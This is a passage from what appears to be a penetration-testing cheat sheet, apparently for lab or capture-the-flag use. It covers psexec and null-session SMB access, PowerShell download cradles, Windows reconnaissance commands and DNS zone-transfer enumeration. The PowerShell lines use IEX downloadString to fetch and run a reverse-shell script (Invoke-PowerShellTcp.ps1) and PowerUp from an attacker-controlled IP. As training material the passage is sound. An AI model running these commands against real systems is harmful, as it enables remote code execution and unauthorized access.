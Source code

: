 # if user has admin privileges on the box, user can execute commands with psexec
psexec.py <hostname>/<username>@<ip>

# null authentication
smbclient -U '' -N -L //<ip>
{% endhighlight %}

### Powershell
{% highlight powershell %}
# Downloading files
IEX(New-Object Net.Webclient).downloadString('[http://10.10.14.25:1234/Invoke-PowerShellTcp.ps1](http://10.10.14.25:1234/Invoke-PowerShellTcp.ps1)')

# Download file to the remote server within a cmd shell using powershell
echo IEX(New-Object Net.WebClient).downloadString('[http://10.10.14.25:8000/PoweUp.ps1](http://10.10.14.25:8000/PoweUp.ps1)') | powershell -noprofile -
{% endhighlight %}

## Privilege Escalation
{% highlight bash %}
systeminfo
whoami
PowerShell: Get-NetIPConfiguration or Get-NetIPAddress
# Empire has recon scripts
# Sherlock and watson(updated version) scans for kernel exploits
ipconfig
ping
nslookup
route
tracert
netstat
{% endhighlight %}

## DNS

{% highlight bash %}
# learning hostname
nslookup
> server <ip>
> 127.0.0.1
> <ip>

# enumeration
dnsrecon -d <ip> -r 10.0.0.0/8

# zone transfer without domain
dig axfr @<DNS_IP>